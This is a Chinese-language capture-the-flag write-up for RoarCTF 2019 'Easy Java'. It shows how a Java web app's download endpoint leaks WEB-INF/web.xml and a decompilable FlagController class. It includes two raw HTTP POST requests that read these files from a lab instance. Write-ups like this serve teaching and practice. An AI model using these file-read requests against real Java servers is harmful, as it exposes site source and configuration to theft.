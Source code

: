 # RoarCTF 2019

## Easy Java

> *2021/07/16*

### 题目

题目很明显`Java`写的，一进来是一个登录页面

![roarctf20191](img/roarctf2019/roarctf20191.png)

先点进去`help`，发现一个很典型的**Java文件下载**

![roarctf20192](img/roarctf2019/roarctf20192.png)

> WEB-INF主要包含一下文件或目录   
>
> - `/WEB-INF/web.xml`：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则   
> - `/WEB-INF/classes/`：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中   
> - `/WEB-INF/lib/`：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件   /WEB-INF/src/：源码目录，按照包名结构放置各个java文件。   
> - `/WEB-INF/database.properties`：数据库配置文件 
>
> **漏洞检测以及利用方法：通过找到`web.xml`文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码**

先试试`WEB-INF`，但是`GET请求`怎么都不行，换成`POST请求`才可以，打开文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">

    <welcome-file-list>
        <welcome-file>Index</welcome-file>
    </welcome-file-list>

    <servlet>
        <servlet-name>IndexController</servlet-name>
        <servlet-class>com.wm.ctf.IndexController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>IndexController</servlet-name>
        <url-pattern>/Index</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>LoginController</servlet-name>
        <servlet-class>com.wm.ctf.LoginController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>LoginController</servlet-name>
        <url-pattern>/Login</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>DownloadController</servlet-name>
        <servlet-class>com.wm.ctf.DownloadController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>DownloadController</servlet-name>
        <url-pattern>/Download</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>FlagController</servlet-name>
        <url-pattern>/Flag</url-pattern>
    </servlet-mapping>

</web-app>
```

发现了`flag`所在的包，继续打开`classes`，用**jadx**反编译`class`文件，base64解码即可得到`flag`

```java
import java.io.IOException;
import java.io.PrintWriter;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet(name = "FlagController")
public class FlagController extends HttpServlet {
  String flag = "ZmxhZ3s4MTkzYWRlYy1jNzQ3LTQwODktODhlMS04NTA5MmMyNTRlZTN9Cg==";
  
  protected void doGet(HttpServletRequest paramHttpServletRequest, HttpServletResponse paramHttpServletResponse) throws ServletException, IOException {
    PrintWriter printWriter = paramHttpServletResponse.getWriter();
    printWriter.print("<h1>Flag is nearby ~ Come on! ! !</h1>");
  }
}
```

### payload

```http
POST /Download HTTP/1.1
Host: 0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Length: 26
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn/Download?filename=help.docx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; JSESSIONID=58F821D5D809EB526A2D0EFAA010CD8B
Connection: close

filename=WEB-INF%2Fweb.xml
```

```http
POST /Download HTTP/1.1
Host: 0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Length: 66
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn/Download?filename=help.docx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; JSESSIONID=58F821D5D809EB526A2D0EFAA010CD8B
Connection: close

filename=WEB-INF%2Fclasses%2Fcom%2Fwm%2Fctf%2FFlagController.class
```